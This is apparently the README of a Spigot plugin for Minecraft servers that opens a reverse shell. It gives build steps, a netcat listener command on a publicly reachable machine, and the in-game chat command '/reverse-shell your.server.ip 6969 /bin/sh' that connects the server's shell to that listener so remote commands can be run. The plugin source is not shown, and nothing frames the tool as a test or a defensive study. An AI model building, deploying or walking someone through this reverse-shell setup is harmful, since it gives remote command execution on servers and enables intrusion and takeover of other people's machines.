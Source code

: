 # shell-plugin

a reverse shell spigot plugin.

### requirements

- a minecraft server
- maven and openjdk >=18

You can now build the jar.

```shell
cd ./reverse-shell
mvn package
```

You can find the plugin jar at `./reverse-shell/target/reverse-shell-1.0.0.jar`.

Once you have installed the plugin, create a netcat server on a **publicly-accessible** linux machine.

```
nc -l 0.0.0.0 6969
```

Simply enter `/reverse-shell your.server.ip 6969 /bin/sh` in the minecraft chat and it will attempt to create a reverse shell.
Then you can type commands like `ls` into the netcat server prompt.
